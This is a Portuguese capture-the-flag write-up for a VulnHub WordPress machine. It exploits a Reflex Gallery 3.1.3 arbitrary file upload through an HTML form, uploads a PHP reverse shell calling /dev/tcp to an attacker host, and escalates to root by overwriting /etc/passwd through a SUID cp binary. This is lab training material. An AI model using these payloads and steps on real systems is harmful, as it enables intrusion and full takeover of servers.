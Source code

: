 ```yaml
---
title: Desafio 2 - VM 07
author: R3d-4rr0w
date: 2022-04-14 05:00:00 -0300
categories: [Desafio 2, Beco do Exploit, Writeups]
tags: [Desafio 2, Writeups, Linux, WordPress]
image: "/img/desafio2/becoxpl-logo.png"
alt: "Desafio2-VM7"
---
```


# VM 7 - Ha Hardy

---

## [VM 7 - Ha Hardy](https://www.vulnhub.com/entry/ha-wordy,363/)

---

## Reconhecimento:

NMAP

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -v 192.168.56.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 16:00 EDT
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

No scan no nmap, só achamos a porta 80 aberta, que está rodando um Apache.

Ao abrir no browser,  vemos a página default do Apache.

<imr src ="/img/desafio2/vm7/hardy.png">

Vamos fazer uma enumeração de diretórios usando o FFUF.

Podemos ver que existe um wordpress rodando.

<imr src ="/img/desafio2/vm7/hardy 1.png">

<imr src ="/img/desafio2/vm7/hardy 2.png">

Olhando código fonte, vemos os plugins que o WordPress está usando.

Buscando por exploits, achamos um do reflex-gallery

<imr src ="/img/desafio2/vm7/hardy 3.png">

Olhando no diretório raiz do plugin, achamos o readme.txt.

<imr src ="/img/desafio2/vm7/hardy 4.png">

Dentro do readme.txt, vemos a versão do plugin, que é a 3.1.3.

<imr src ="/img/desafio2/vm7/hardy 5.png">

No searchsploit, existe um exploit para a versão que vimos acima.

<imr src ="/img/desafio2/vm7/hardy 6.png">

>**💡[WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)**


Dentro do exploit, fala do path para a exploração.

```bash
http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php
```

Que ao ser acessado, retorna um erro dizendo que não tem arquivos carregados, então vemos que existe o serviço de upload e será possivel explorar.

<imr src ="/img/desafio2/vm7/hardy 7.png">

---

## Exploração do File Upload

Como não achamos o lugar para fazer o upload, no exploit tem o código de um formulário que poderemos usar para o isso.

```html
<form method="POST" action="http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```

Agora precisamos criar a reverse shell para enviar usando esse formulário.

Vamos usar uma shell simples que utiliza a função [exec()](https://www.php.net/manual/en/function.exec.php) do php.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'");
?>
```

Vamos então abrir o formulário que criamos e fazer o upload da reverse shell no servidor alvo.

<imr src ="/img/desafio2/vm7/hardy 8.png">

<imr src ="/img/desafio2/vm7/hardy 9.png">

Ao abrir o path que armazena os arquivos carregados, que é citado no exploit, vemos o nosso arquivo.

<imr src ="/img/desafio2/vm7/hardy 10.png">

Agora vamos configurar o netcat para receber a conexão reversa e depois abrimos o código php que enviamos no browser, para termos acesso a reverse shell que enviamos.

<imr src ="/img/desafio2/vm7/hardy 11.png">

---

## Escalagem de Privilégio

Ao tentar ver os comandos que o usuário pode executar como root, usando o sudo -l, é pedida a senha do usuário, como não temos a senha vamos ver quais arquivos ele tem permissão para executar usando o find.

<imr src ="/img/desafio2/vm7/hardy 12.png">

Vemos acima que ele tem permissão de usar o /bin/cp e pode copiar arquivos como root.

Vamos usar para manipular o arquivo /etc/passwd e criar um novo usuario com privilégio elevado.

Primeiro iremos ler o arquivo /etc/passwd e copiar todo o contéudo, depois vamos criar um arquivo na nossa máquina com o mesmo nome /etc/passwd e inserir o nosso usuário seguindo o padrão utilizado pelo arquivo.

>**💡[Understanding /etc/passwd file fields](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)**


Para criar a senha, vamos usar o openssl e criar o hash no mesmo padrão do arquivo /etc/shadow que é usado no linux.

> **💡 [OpenSSL - PASSWD](https://www.openssl.org/docs/man1.1.1/man1/openssl-passwd.html)**


```bash
┌──(red_arrow㉿kali)-[~]
└─$ openssl passwd -1 -salt red-arrow frecha
```

Agora vamos inserir o usuario no arquivo, com os mesmos dados do root.

<imr src ="/img/desafio2/vm7/hardy 13.png">

Então vamos fazer o upload do arquivo que criamos para o alvo.

Podemos usar o mesmo formulario de upload.

<imr src ="/img/desafio2/vm7/hardy 14.png">

<imr src ="/img/desafio2/vm7/hardy 15.png">

<imr src ="/img/desafio2/vm7/hardy 16.png">

Podemos notar que ele está com o nome diferente, existe um ponto ( . ) no final do nome. 

Vamos copiar ele para criar um arquivo com o nome correto, sem o ponto.

<imr src ="/img/desafio2/vm7/hardy 17.png">

Agora vamos copiar o arquivo para a pasta /etc/ e substituir o original, pelo que tem o nosso usuário.

<imr src ="/img/desafio2/vm7/hardy 18.png">

Ao tentar trocar de usuário, ele da um erro, dizendo que o su precisa ser executado de um terminal.

<imr src ="/img/desafio2/vm7/hardy 19.png">

Vamos importar a shell interativa TTY, usando o python 3.

Agora podemos mudar para o nosso usuário com privilégio elevado.

<imr src ="/img/desafio2/vm7/hardy 20.png">

Podemos ver que temos acesso root.

<imr src ="/img/desafio2/vm7/hardy 21.png">

E dentro do diretório /root, temos a flag da VM.

<imr src ="/img/desafio2/vm7/hardy 22.png">